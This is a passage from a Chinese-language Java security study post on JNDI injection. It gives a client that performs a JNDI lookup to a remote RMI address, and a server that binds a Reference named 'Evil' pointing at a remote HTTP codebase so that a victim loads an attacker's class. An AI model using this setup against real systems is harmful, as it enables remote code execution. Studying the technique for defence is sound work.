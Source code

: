 ```java
package com.feng.jndi;

import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.Name;
import java.rmi.Naming;

public class Client {
    public static void main(String[] args) throws Exception {
        String url = "rmi://121.5.169.223:39654/feng";
        Context context = new InitialContext();
        context.lookup(url);
    }
}

```

初始化一个JNDI接口，然后将RMI的url传给`lookup`。



然后在远程VPS上写一个`Server`（这里不在本地起了，直接起远程RMI，因为本地没坑，远程会遇到问题）：

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws Exception{
        System.setProperty("java.rmi.server.hostname","121.5.169.223");
        Registry registry = LocateRegistry.createRegistry(39654);
        Reference feng = new Reference("1","Evil","http://121.5.169.223:39777/");
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(feng);
        registry.bind("feng",referenceWrapper);
    }
}

```



第一行的`System.setProperty("java.rmi.server.hostname","121.5.169.223");`之前在RMI的文章里也提到了，是因为IP地址的问题，放一下别的师傅的答案：

![image-20210901180107631]([Java安全]JNDI注入学习.assets/image-20210901180107631.png)



所以需要改成外网IP。然后就是正常的RMI服务端了，构造出一个`Reference`对象：

```java
        Reference feng = new Reference("1","Evil","http://121.5.169.223:39777/");
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(feng);
```
